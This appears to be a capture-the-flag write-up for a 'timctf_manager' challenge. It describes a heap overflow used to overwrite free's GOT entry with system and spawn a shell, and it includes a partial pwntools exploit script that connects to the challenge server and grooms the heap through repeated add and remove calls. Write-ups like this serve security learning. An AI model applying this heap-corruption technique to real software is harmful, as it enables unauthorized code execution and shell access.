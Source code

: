 In this part, a heap overflow occurs.

So you can fill the got section with whatever you want.

### Exploit

As you debug, you will see that you pass the address 0x602090 as the argument to the free function.

Therefore, we cover the address of system function in GOT of free function.

Then enter the string "/bin/sh" at 0x602090.

Then run the free function to capture the shell.

```python
from pwn import *

#context.log_level = "debug"

e = ELF("./timctf_manager")
libc = ELF("./libc-2.27.so")
r = remote("89.38.208.144",11114)
#r = process("./timctf_manager")

def add(index,name,rev,web,crypto,forensic,comment):
	r.sendline("1")
	r.sendlineafter("(1-4) ",str(index))
	r.sendlineafter(": ",name)
	r.sendlineafter(": ",str(rev))
	r.sendlineafter(": ",str(web))
	r.sendlineafter(": ",str(crypto))
	r.sendlineafter(": ",str(forensic))
	r.sendlineafter(": ",comment)

def remove(index):
	r.sendline("2")
	r.sendlineafter("(1-4) ",str(index))

def edit(index,name,rev,web,crypto,forensic,comment):
	r.sendline("3")
	r.sendlineafter("(1-4) ",str(index))
	r.sendlineafter(": ",name)
	r.sendlineafter(": ",str(rev))
	r.sendlineafter(": ",str(web))
	r.sendlineafter(": ",str(crypto))
	r.sendlineafter(": ",str(forensic))
	r.sendlineafter(": ",comment)

def player(index):
	r.sendline("4")
	r.sendlineafter("(1-4) ",str(index))

players = 0x6020a0
got = e.got["free"]
log.info("got : " + hex(got))

# input : index,name,rev,web,crypto,forensic,comment

add(1,"\x00","+","+","+","+","AAAA")

remove(1)
remove(1)

add(2,"\x00",(players+0x8)-0x18,"+","+","+","BBBB")

add(3,"AAAA","+","+","+","+","CCCC")
```